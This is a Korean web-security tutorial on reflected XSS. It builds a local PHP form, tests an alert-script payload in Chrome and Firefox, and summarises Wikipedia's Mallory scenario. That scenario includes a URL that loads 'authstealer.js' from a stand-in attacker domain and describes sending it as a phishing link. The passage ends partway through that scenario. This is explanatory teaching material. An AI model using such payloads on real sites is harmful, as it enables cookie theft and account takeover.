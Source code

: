 
example이라는 폴더를 만들고 index.html 파일과 action.php 파일을 만든 후, 아래 코드를 입력해 저장합니다. index.html 파일을 브라우저에 띄워보면 아래와 같은 화면을 볼 수 있습니다. 

![]({{ "/img/etc/web-security-01.png" | absolute_url }})

action.php 파일의 코드가 동작하기 위해서는 php 웹 서버를 띄워야 합니다.  

<pre class="pre-blue">
  1. cd ~/Desktop/example 터미널을 열고 example 폴더가 있는 곳으로 이동한다. 
  2. php -S localhost:8000  포트번호 8000번(이미 사용중이면 다른 것으로 대체가능)으로 php 웹 서버에 접속한다.
  3. 브라우저 창을 열고 주소창에 localhost:8000을 입력한다.
</pre>

자 이제 php 웹 서버에 example 프로젝트를 띄웠습니다. input값에 이름을 `홍길동`으로 입력하고 오른쪽에 위치한 제출 버튼을 눌러봅니다. `이름: 홍길동`으로 잘 바뀌는 것을 확인할 수 있습니다. url도 `localhost:8000/action.php?username=홍길동`으로 변경됩니다.

이번엔 input 값에 `<script>alert('hello')</script>`를 입력한 후 제출 버튼을 눌러봅니다. 크롬 브라우저를 사용하고 있다면 아래와 같은 화면이 나옵니다.

![]({{ "/img/etc/web-security-02.png" | absolute_url }})<span class="expl">[크롬 브라우저에서 XSS 공격이 차단된 모습]</span>

XSS 공격에 대비해 브라우저가 input값에 `<script>`, `<object>`, `<embed>`, `<link>` 등의 태그가 들어가는 것을 사전에 차단(더 정확하게 말하자면, url에 해당 태그가 들어가는 것을 차단)합니다. 하지만 파이어폭스에서는 로컬 서버여서 그런건지 아래 그림처럼 input값이 제대로 sanitize되지 않아 제출 버튼을 누르면 hello라는 메시지를 띄우는 alert 창이 나타나는 것을 확인할 수 있습니다.

![]({{ "/img/etc/web-security-03.png" | absolute_url }})<span class="expl">[파이어폭스 브라우저에서 XSS 공격이 차단되지 못한 모습]</span>

보다 자세한 시나리오를 위키피디아가 <a href="https://en.wikipedia.org/wiki/Cross-site_scripting#Non-persistent" target="_blank">Cross-site scripting: Exploit Examples</a>라는 항목으로 따로 정리하고 있습니다. 내용이 좋아 번역 및 요약해보았습니다. 

1. 앨리스는 종종 밥의 웹 사이트(`http://bobssite.org`)를 방문하곤 한다. 밥의 웹 사이트는 이름과 비밀번호로 로그인이 가능하며 카드정보 등을 갖고 있다. 유저가 로그인을 하면 브라우저는 인증 쿠키를 갖고 있기 때문에 클라이언트와 서버 모두 로그인 여부를 알 수 있는 구조로 되어있다.

2. 말로리는 reflected XSS 방법으로 밥의 웹 사이트를 공격하려 하고있다.

* 2-1. 밥의 웹 사이트에는 검색을 할 수 있는 페이지가 있다. 검색 페이지에서 키워드를 입력하고 제출 버튼을 눌렀을때 만약 검색 결과가 없으면 `not found`라는 메시지가 출력되고 url은 `http://bobssite.org?q=her search term`로 변경된다고 가정해보자.

* 2-2. `dogs`라는 키워드를 입력하고 제출 버튼을 누르면 url은 `http://bosssite.org?q=dogs`로 변경되고 `dogs not found`라는 내용이 출력된다. 정상적인 동작이다.

* 2-3. 하지만 말로리가 앙심을 품고 검색 창에 `<script type="text/javascipt">alert('xss');</script>`를 입력하고 제출 버튼을 누른다면 어떻게 될까? xss라는 메시지가 표시되는 alert창이 나타나고 `<script type="text/javascipt">alert('xss');</script> not found`라는 내용이 출력된다. 물론 url은 `http://bosssite:org/?q=<script type="text/javascipt">alert('xss');</script>`가 된다.

{:start="3"}
3. 말로리가 이번엔 더 큰 앙심을 품어 다른 사람의 정보를 빼내려고 한다. 

* 3-1. 그녀는 `http://bobssite.org?q=puppies<script%20src="http://mallorysevilsite.com/authstealer.js"></script>` 이러한 URL을 만들었다.

* 3-2. 사용자가 눈치챌 수 있으니 인코딩 과정을 거쳐 `http://bobssite.org?q=puppies%3Cscript%2520src%3D%22http%3A%2F%2Fmallorysevilsite.com%2Fauthstealer.js%22%3E%3C%2Fscript%3E`라는 URL을 얻었다.

* 3-3. `귀여운 강아지 사진 보기`등의 버튼이 담긴 메일을 보낸다. 

